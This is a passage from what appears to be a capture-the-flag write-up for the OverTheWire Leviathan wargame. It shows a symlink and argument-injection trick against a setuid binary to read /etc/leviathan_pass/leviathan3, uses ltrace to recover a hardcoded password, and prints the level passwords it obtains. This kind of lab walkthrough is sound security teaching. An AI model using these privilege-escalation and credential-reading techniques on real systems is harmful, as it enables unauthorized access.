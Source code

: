 ```bash
--- SIGCHLD (Child exited) ---
<... system resumed> )                                                          = 256
+++ exited (status 0) +++
```

We have the following error **/bin/cat: bar.txt: No such file or directory** because the file **bar.txt** does not exist. However, the *access()* calls return successfully because the file exists and we have to proper access rights on it. But, the call to *system()* try to read 2 separate files. So, if we create a symbolic link of **/etc/leviathan_pass/leviathan3** named **bar.txt** we should be able to get the password.

```bash
leviathan2@leviathan:/tmp/ax$ ln -s /etc/leviathan_pass/leviathan3 bar.txt
leviathan2@leviathan:/tmp/ax$ ~/printfile "foo.txt bar.txt"
bar
Ahdiemoo1j
```

## Level 03 Solution

Another easy one :)

```bash
$ ssh leviathan3@leviathan.labs.overthewire.org -p 2223

leviathan3@leviathan:~$ ls -la
total 32
drwxr-xr-x  2 root       root        4096 Oct 29 21:17 .
drwxr-xr-x 10 root       root        4096 Oct 29 21:17 ..
-rw-r--r--  1 root       root         220 May 15  2017 .bash_logout
-rw-r--r--  1 root       root        3526 May 15  2017 .bashrc
-r-sr-x---  1 leviathan4 leviathan3 10288 Oct 29 21:17 level3
-rw-r--r--  1 root       root         675 May 15  2017 .profile
leviathan3@leviathan:~$ ./level3 
Enter the password> foobar
bzzzzzzzzap. WRONG
```

Let's try the same `ltrace` trick we used in the previous level.

```bash
leviathan3@leviathan:~$ ltrace ./level3
__libc_start_main(0x8048618, 1, 0xffffd784, 0x80486d0 <unfinished ...>
strcmp("h0no33", "kakaka")                                                      = -1
printf("Enter the password> ")                                                  = 20
fgets(Enter the password> foobar 
"foobar\n", 256, 0xf7fc55a0)                                              = 0xffffd590
strcmp("foobar\n", "snlprintf\n")                                               = -1
puts("bzzzzzzzzap. WRONG"bzzzzzzzzap. WRONG
)                                                      = 19
+++ exited (status 0) +++
leviathan3@leviathan:~$ ./level3 
Enter the password> snlprintf
[You've got shell]!
$ cat /etc/leviathan_pass/leviathan4
vuH0coox6m
```
